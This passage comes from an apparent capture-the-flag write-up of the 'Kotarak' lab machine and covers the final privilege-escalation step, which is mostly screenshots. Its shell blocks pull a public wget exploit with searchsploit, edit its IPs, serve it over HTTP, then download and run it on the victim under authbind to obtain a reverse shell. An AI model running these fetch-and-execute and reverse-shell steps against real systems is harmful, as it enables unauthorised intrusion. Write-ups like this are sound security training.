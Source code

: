 <br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The last step is to download the exploit on my attacker machine to customize it, it is written in **Python** so I have to be careful with the indexing and with the parameter values corresponding to the **FTP** and **HTTP** server **IP**. As I want to escalate privileges I will resort to **[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}** to use one of its methods to obtain a **Reverse Shell**. After making all the modifications I transfer the exploit to the target machine and run it, but using `authbind` so as not to have problems with permissions when opening ports **21** and **80**.

> **Attacker Machine**:

```bash
searchsploit -m linux/remote/40064.txt
mv 40064.txt wget_exploit.txt
nvim wget-exploit.py
# j.
# > .
# HTTP_LISTEN_IP = '0.0.0.0'
# FTP_HOST = '10.129.1.117'

python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget http://10.10.14.238/wget-exploit.py
python wget-exploit.py
# :(
authbind python wget-exploit.py
# :)
```

<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
